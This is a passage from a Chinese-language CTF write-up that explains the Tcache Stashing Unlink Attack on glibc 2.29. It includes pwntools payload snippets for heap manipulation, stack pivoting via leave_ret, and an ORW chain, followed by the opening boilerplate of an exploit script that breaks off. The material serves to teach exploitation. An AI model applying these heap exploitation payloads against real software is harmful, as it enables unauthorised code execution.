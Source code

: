 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-182539fc4a905d79bc2ae319461db02e53e2040b.png)

所以说我们现在就可以申请到目标位置了，这就是Tcache Stashing Unlink Attack

```python
add(2,0xF0,orw)
```

然后我们就是栈迁移到这里执行orw

```python
    pl = 'a'*0x300
    pl += p64(0) + p64(0x101)
    pl += p64(heap_addr + 0x1F70)
    pl += p64(heap_addr - 0x1010 + 0x800 - 0x10)
    edit(0,pl)
    add(2,0xF0,orw)
    sla('Your input:','666')
    pl = 'a'*0x80
    pl += p64(orw_addr - 0x8)
    pl += p64(leave_ret)
    sla(pl)
```

这大概就是Tcache Stashing Unlink Attack的利用过程

exp
---

```python
#encoding = utf-8
import os
import sys
import time
from pwn import *
from LibcSearcher import * 

context.log_level = "debug"
context.os = 'linux'
context.arch = 'amd64'

binary = "1"
libcelf = "libc-2.29.so"
ip = ""
port = ""
local = 1
arm = 0
core = 64

og = [0x4342,0x3342]

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

if(local==1):
    if(arm==1):
        if(core==64):
            p = process(["qemu-arm", "-g", "1212", "-L", "/usr/arm-linux-gnueabi",binary])
        if(core==32):
```